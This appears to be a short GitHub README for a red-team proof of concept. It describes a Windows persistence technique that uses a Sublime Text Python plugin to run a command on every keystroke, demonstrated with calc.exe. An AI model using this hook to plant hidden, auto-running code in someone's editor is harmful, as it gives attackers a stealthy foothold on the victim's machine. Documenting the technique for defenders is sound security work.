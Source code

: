 # Sublime-persistence
Windows persistence method that abuses sublime packages.

Sublime text allows the ability to create custom plugins written in python. 
An API reference is posted below.
https://www.sublimetext.com/docs/api_reference.html



```import sublime
import sublime_plugin
import subprocess


class OpenCalcOnModified(sublime_plugin.EventListener):
    def on_modified(self, view):
        subprocess.Popen('calc.exe', shell=True)```

In the above python script we define a class called 'OpenCalcOnModified' which invokes the on_modified function. 
When a keystroke is detected within the sublime text editor, the .POpen() method in the subproccess module executes calc.exe.  

![alt text](https://github.com/rootd4ddy/Sublime-persistence/assets/129632649/993016ec-0b9a-418a-92b9-60de66f32308)


